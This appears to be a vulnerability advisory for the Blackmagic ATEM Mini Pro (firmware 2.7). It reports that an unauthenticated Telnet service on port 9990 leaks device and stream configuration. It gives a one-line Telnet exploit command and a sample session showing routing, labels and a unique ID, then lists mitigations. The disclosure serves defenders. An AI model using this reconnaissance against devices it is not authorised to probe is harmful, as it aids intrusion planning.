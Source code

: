 # Blackmagic ATEM Mini Pro – Information Disclosure via Telnet (Port 9990)

## Description:

The Blackmagic ATEM Mini Pro exposes sensitive device and stream configuration information via an unauthenticated Telnet service on port 9990. Upon connection, the attacker can access a protocol preamble that leaks the video mode, routing configuration, input/output labels, device model, and even internal identifiers such as the unique ID. This can be used for reconnaissance and planning further attacks.

## Product
**Blackmagic Design – ATEM Mini Pro**  
**Firmware/Software Version:** 2.7

## Vulnerability Type
**Information Disclosure**

## Affected Component(s)
- Telnet Service (Port 9990)
- Device Configuration Management
- Stream Information Interface

## Attack Vector(s)
An unauthenticated attacker with network access can connect to the device over **Telnet port 9990**, which returns sensitive information including stream configuration, device model, routing table, and hardware labels without any authentication.

---

## Vulnerable Endpoint
- **Port:** `9990`
- **Protocol:** Telnet

## Exploit Example

```sh
telnet <target-ip> 9990
```

## Example Session Output
```sh
┌──(user㉿host)-[~]
└─$ telnet 172.242.35.6 9990
Trying 172.242.35.6...
Connected to 172.242.35.6.
Escape character is '^]'.
PROTOCOL PREAMBLE:
Version: 2.7

VIDEOHUB DEVICE:
Device present: true
Model name: ATEM Mini Pro
Friendly name: ATEM Mini Pro
Unique ID: 316b239a63ea45b9bf47fedc5ca480c0
Video inputs: 14
Video outputs: 4

INPUT LABELS:
0 Black
1 Camera 1
2 Camera 2
3 Camera 3
4 Camera 4
5 Color Bars
6 Color 1
7 Color 2
8 Media Player 1
9 Media Player 1 Key
10 Multiview
11 Program
12 Preview
13 Camera 1 Direct

VIDEO INPUT STATUS:
0 Internal
1 HDMI
2 HDMI
3 HDMI
4 HDMI
5 Internal
6 Internal
7 Internal
8 Internal
9 Internal
10 Internal
11 Internal
12 Internal
13 HDMI

OUTPUT LABELS:
0 Output
1 Webcam Out
2 Program
3 Preview

CONFIGURATION:
Video Mode: 1080p24

VIDEO OUTPUT ROUTING:
0 11
1 11
2 1
3 1

VIDEO OUTPUT LOCKS:
0 U
1 U
2 U
3 U

END PRELUDE:
```
## Proof of Concept (PoC) for(CE,Information Disclosure)
<img width="1718" height="868" alt="Image" src="https://github.com/user-attachments/assets/bf0ea3b8-9553-42a0-945a-982c1794295f" />

https://github.com/user-attachments/assets/357c0349-e275-466f-a97c-7eca4d189a3f

## Impact

This vulnerability allows attackers to:

    Enumerate device configurations

    View input/output routing and status

    Identify device metadata (model, firmware version, unique ID)

    Monitor live stream setup

No credentials or authentication are required.

## Mitigation

    Block or disable access to port 9990 from untrusted networks.

    Restrict Telnet access to trusted internal IPs only.

    Upgrade firmware, if a newer version mitigates this exposure.

    Consider disabling Telnet entirely in production environments.
